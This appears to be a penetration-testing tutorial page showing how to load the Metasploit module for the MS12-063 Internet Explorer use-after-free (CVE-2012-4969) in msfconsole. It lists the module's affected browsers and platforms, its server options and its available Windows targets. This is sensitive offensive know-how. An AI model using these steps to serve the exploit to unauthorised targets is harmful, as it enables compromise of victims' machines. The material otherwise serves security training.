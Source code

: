 
## 📘 Example: Internet Explorer UAF Exploit

**Exploit:** `exploit/windows/browser/ie_execcommand_uaf`  
**Vulnerability:** MS12-063 - Use-After-Free in Internet Explorer

```bash
msf6 > use exploit/windows/browser/ie_execcommand_uaf
msf6 exploit(...) > info
```

### 🔐 Vulnerability Details
- **Disclosed:** 2012-09-14
- **CVE:** [CVE-2012-4969](https://cvedetails.com/cve/CVE-2012-4969/)
- **Browsers Affected:** IE 7, IE 8, IE 9
- **Platforms:** Windows XP, Vista, 7
- **Requirements:**
  - For XP/IE8: `msvcrt` must be present.
  - For Vista/7: Java Runtime Environment (JRE) 1.6.x or below must be installed.

---

## ⚙️ Module Options

```bash
msf6 exploit(...) > options
```

| Name      | Current Setting | Required | Description                                         |
|-----------|-----------------|----------|-----------------------------------------------------|
| OBFUSCATE | false           | no       | Enable JavaScript obfuscation                       |
| SRVHOST   | 0.0.0.0         | yes      | Local host to listen on                             |
| SRVPORT   | 8080            | yes      | Local port to listen on                             |
| SSL       | false           | no       | Negotiate SSL for incoming connections              |
| URIPATH   | (random)        | no       | URI path for the exploit                            |

---

## 📋 Available Targets

```bash
msf6 exploit(...) > show targets
```

| Id | Target Description        |
|----|---------------------------|
| 0  | Automatic                 |
| 1  | IE 7 on Windows XP SP3    |
| 2  | IE 8 on Windows XP SP3    |
| 3  | IE 7 on Windows Vista     |
| 4  | IE 8 on Windows Vista     |
| 5  | IE 8 on Windows 7         |
| 6  | IE 9 on Windows 7         |

---